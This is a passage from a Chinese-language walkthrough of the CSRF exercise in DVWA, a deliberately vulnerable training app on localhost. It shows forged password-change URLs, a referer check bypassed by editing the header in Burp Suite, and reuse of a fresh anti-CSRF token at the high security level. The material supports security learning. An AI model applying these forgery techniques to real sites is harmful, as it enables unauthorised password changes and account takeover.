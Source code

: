 ```
http://127.0.0.1/vulnerabilities/csrf/?password_new=4321&password_conf=4321&Change=Change#
```

`That request didn't look correct.`

查看源代码发现做了一个校验

```php
 if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) 
```



使用BP抓包，修改http请求报文的`referer`，就可以伪造了。

```
Referer: http://127.0.0.1/vulnerabilities/csrf/?password_new=4321&password_conf=4321&Change=Change
```

### Security High

看源代码可以发现，使用了token进行验证，再加上referer的验证

```
GET /vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change&user_token=0d90a1e2b141c59904ccab5246abfba9 HTTP/1.1

Referer: http://127.0.0.1/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change&user_token=a5b5512d2b8b19132156bbd6dc8bdd37
```



可以通过`F12`查找发现`user_token`每一次都在进行改变，一般隐藏在表单的上下，随着表单提交的时候也提交上去

每一个的提交，服务器会返回一个新的token，接下来用这个新的token进行请求伪造即可

![image-20250111140755966](../../_media/image-20250111140755966.png)

```
http://127.0.0.1/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change&user_token=3bdfc9c8c55185c756b989511ba21e20
```
